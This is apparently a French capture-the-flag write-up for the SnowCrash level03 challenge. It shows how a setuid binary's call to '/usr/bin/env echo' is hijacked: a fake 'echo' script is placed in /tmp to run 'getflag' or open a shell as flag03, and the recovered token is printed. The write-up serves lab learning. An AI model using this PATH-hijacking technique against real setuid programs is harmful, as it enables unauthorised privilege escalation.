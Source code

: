 # Level03 - Variable d'environnement
Pour résoudre le level03, on nous fournis un fichier level03. On utilise `strings` dessus, et on s'aperçoit que le programme fait appel à echo d'une manière un peu particulière...
```
/usr/bin/env echo Exploit me
```

On passe par l'environnement pour récupérer la variable $PATH, et on s'en sert pour aller chercher echo.

On peut exploiter cet appel en créant un faux programme echo dans `/tmp` qui va se charger d'appeler `getflag` ou de nous ouvrir un `terminal` vers flag03.

Pour se faire, on crée un script dans `/tmp` qu'on appelle `echo`:
```
#!/bin/bash
getflag | wall //Permet de récupérer directement 
               //le flag et de l'afficher sur le terminal avec wall
```
ou
```
#!/bin/bash
/bin/bash //Nous ouvre directement un terminal depuis l'utilisateur flag03
```

On `chmod 777 /tmp/echo` et on exécute `level03`. L'appel d'`echo` se fait avec notre version et nos commandes se lancent bien.

On récupère notre flag
```
flag03@SnowCrash:~$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

On a notre token: `qi0maab88jeaj46qoumi7maus`

